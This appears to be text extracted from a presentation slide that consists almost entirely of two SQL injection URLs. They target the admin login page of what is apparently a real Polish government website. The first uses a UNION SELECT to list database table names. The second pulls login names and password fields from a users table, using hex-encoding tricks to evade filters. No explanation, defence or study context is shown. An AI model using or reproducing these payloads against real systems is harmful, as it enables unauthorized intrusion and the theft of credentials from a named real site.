

#
https://www.premier.gov.pl/admin/index.php?do=side&ac=login&id=32' and 1=0 union select 1,
uNHex(Hex(table_name)),3,5 FROM
information_schema.columns-- and '1' ='1
https://www.premier.gov.pl/admin/index.php?do=side&ac=login&id=32' and 1=0 union select 1,
uNHex(Hex(concat(login,char(32),passwd
))),3,5 FROM _users-- and '1' ='1